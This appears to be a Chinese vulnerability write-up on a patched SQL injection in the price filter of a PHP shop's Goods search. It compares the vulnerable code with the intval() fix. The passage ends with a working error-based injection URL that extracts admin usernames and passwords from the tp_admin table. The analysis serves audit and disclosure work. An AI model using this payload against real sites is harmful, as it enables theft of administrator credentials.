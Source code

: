 **v2.0.7 SQL注入**

之前搜索时候发现2.0.7版本，也就是上一个版本出现过SQL注入：[https://www.seceye.cn/1543.html](https://www.seceye.cn/1543.html)

漏洞同样出现在Goods.php的search()和goodsList()函数；

那么同样，pc端存在，移动端也存在；

```
$goods_id_1 = $goodsLogic->getGoodsIdByBrandPrice($brand_id,$price); // 根据 品牌 或者 价格范围 查找所有商品id    
```

调用了goodsLogic类的 **getGoodsIdByBrandPrice()** 方法，并将 **$price** 作为参数传入；

```
$price = I('get.price',''); // 价钱
```

并没有进行强制类型转换为数字型d进行限制；

跟进 **application/common/logic/GoodsLogic.php** 的 **getGoodsIdByBrandPrice** 方法；

```
400-407 行
if ($price)// 价格查询
        {
            $price = explode('-', $price);
            $price[0] = intval($price[0]);
            $price[1] = intval($price[1]);
            $price_where=" shop_price >= $price[0] and shop_price <= $price[1] ";
            $price_select_goods = M('goods')->where($price_where)->getField('goods_id', true);
        }
```

这里进行了 **intval()** 强制类型转换，同样解决了问题；

这里看之前的代码（v2.0.7）；

```
if ($price)// 价格查询
{
$price = explode('-', $price);
$price_where=" shop_price >= $price[0] and shop_price <= $price[1] ";
$price_select_goods = M('goods')->where($price_where)->getField('goods_id',
true);
}
```

$price 参数传过来的字符串以 - 分割转换成数组传入SQL语句中，这就造成了 **where** 条件可控，造成注入，也是采用报错方式；

```
http://192.168.215.136/Home/Goods/search/q/apple/price/1000-9000 and exp(~(select * from(SELECT distinct concat(0x23,user_name,0x3a,password,0x23) FROM tp_admin limit 0,1 )a))
SQL语句：
SELECT goods_id FROM tp_goods WHERE ( shop_price >= 1000 and shop_price <= 9000 andexp(~(select * from( SELECT distinct concat(0x23,user_name,0x3a,password,0x23) FROM tp_admin limit 0,1 )a)))
```


[Go0s]: ~ 